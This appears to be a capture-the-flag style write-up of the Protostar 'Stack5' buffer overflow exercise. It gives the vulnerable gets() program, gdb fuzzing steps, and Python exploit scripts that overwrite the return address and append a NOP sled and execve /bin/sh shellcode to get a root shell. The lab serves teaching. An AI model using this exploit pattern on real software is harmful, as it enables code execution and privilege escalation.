





# [cd ../](../index.md)
# Stack5

> Stack5 is a standard buffer overflow, this time introducing shellcode.
> Hints
- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
- remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Interesting
- Very little code
- We **dont** have a win function so we have to gain root shell

# Starting it
## Fuzzing
- Try the changing pattern in gdb
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```
as input and see where it segfaults  
Cmds:
```
gdb stack5
r < fuzzingpattern
info registers
```
  
- **ebp** = **S**, **eip** = **T**
- We can `disass main` and we can `break *0x080483da` (the address of **ret**)
- And we can `define hook-stop`  

## Change the exploit

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0x41414141)
print padding+eip
```

- Now we can test it
- The program returned to our **last stack** address.


## The exploit
- We have to jump to a valid location like **esp**
- After hitting the breakpoint we can `si` (step 1 instruction) and `info registers`
- We have the address of **esp** now `0xbffff7c0`
- Change the exploit a lilbit by changing the `0x41`'s to `0xbffff7c0`
- We have to append the shellcode that we want to execute after the return pointer
- We have to use the **INT3** (breakpoint) code now `\xCC`

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0)
payload = '\xCC'*4
print padding+eip+payload
```

  
- We have code execution now
- We need a [shellcode](http://shell-storm.org/shellcode/) from this page and we will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) simple **execve**
- Copy the bytes to our python script as the payload variable
- Our code isnt working cuz we forgot to add some **NOP** instructions
- Lets add some lines to the code

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding+eip+nop+payload
```

- We can run it now with `python stack5.py | ./stack5`
  - We got nothing back cuz our shell auomatically closes when the program terminates
  - We can bypass this with `(python stack5.py ; cat) | ./stack5`  


# BOOM WE GOT THE SHELL AS ROOT
